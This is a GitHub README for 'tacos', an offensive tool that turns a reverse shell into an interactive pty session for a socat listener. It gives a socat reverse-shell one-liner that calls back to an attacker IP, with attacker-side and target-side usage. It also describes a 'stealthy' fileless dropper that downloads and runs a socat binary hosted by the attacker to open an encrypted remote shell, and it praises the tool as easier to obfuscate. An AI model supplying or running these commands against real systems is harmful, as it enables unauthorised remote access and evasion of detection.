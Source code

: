 # tacos 🌮 
<sup>(reverse `socat`)</sup>

<div align=center>
<img src=https://github.com/ariary/tacos/blob/main/logo.png width=250>

Spawn a pty in your reverse shell to <strong>automaticaly</strong> make it <strong>interactive</strong> for socat listener.

<strong> Fast interactive reverse shell set-up [ 🐳 (container) ](#with-docker-recommended)</strong>

<sup><code><b> All credit goes to <a href=https://github.com/laluka/pty4all>laluka</a> idea </b></code></sup>
</div>



Equivalent of:
```shell
socat exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP:PORT],verify=0
```

**Why ?**
* too lazy to copy/paste/learn socat command
* target doesn't have `socat` and you don't want to do [this](#alternative)
* provide more advanced configuration to the tty (alias, etc)
* easier to obfuscate
* cross-platform *(windows support is OK but not yet interactive. It is recommended to use non-docker solution for it)*
* tired of hitting ^C and loosing your shell?


## Usage

`tacos` is built to work with the simple and dramatically effective project [`pty4all`](https://github.com/laluka/pty4all):
```shell
# On attacker machine
tmux
./light-pty4all/socat-listener.sh --lhost [ATTACKER_IP] --lport [ATTACKER_PORT] #multi-handler

# On target (transfer tacos as you wish)
./tacos [ATTACKER_IP]:[ATTACKER_PORT]       # or .\tacos.exe [ATTACKER_IP]:[ATTACKER_PORT] for windows
# 💥
```


### With docker (recommended)

Source aliases *(for simplicity)*:
```shell
alias tacos.container='docker run --net host --rm -it ariary/tacos'
```

Launch multi-handler listener:
```shell
tacos.container [LISTENING_ADDR] [LISTENING_PORT] # [OPTIONAL_TACOS_ARS]
```

***Notes about container security:***
> From a networking point of view, this is the same level of isolation as if the process were running directly on the host and not in a container. However, in all other ways, such as storage, process namespace, and user namespace, the process is isolated from the host.

## Install

### Release
```shell
curl -lO -L -s https://github.com/ariary/tacos/releases/latest/download/tacos && chmod +x tacos
```

### From git
need `go`:
```shell
git clone https://github.com/ariary/tacos.git && cd tacos
make before.build
make build.tacos          # or make build.tacos.windows
```

## Alternative

Alternatively, if target does not have `socat`:
**Host** a [static](https://github.com/minos-org/minos-static/blob/master/static-get) version of `socat` binary and **download + execute it** using the stealthy  [`filess-xec`](https://github.com/ariary/fileless-xec) dropper:
```shell
# On attacker machine
# get socat static & expose it
get-static socat
python3 -m http.server 8080

# On target machine
# Use already downloaded fileless-xec to download socat and stealthy launch it with argument
fileless-xec [ATTACKER_IP]:8080/socat -- exec:'bash -il',pty,stderr,setsid,sigint,sane OPENSSL:[ATTACKER_IP]:443,verify=0
```
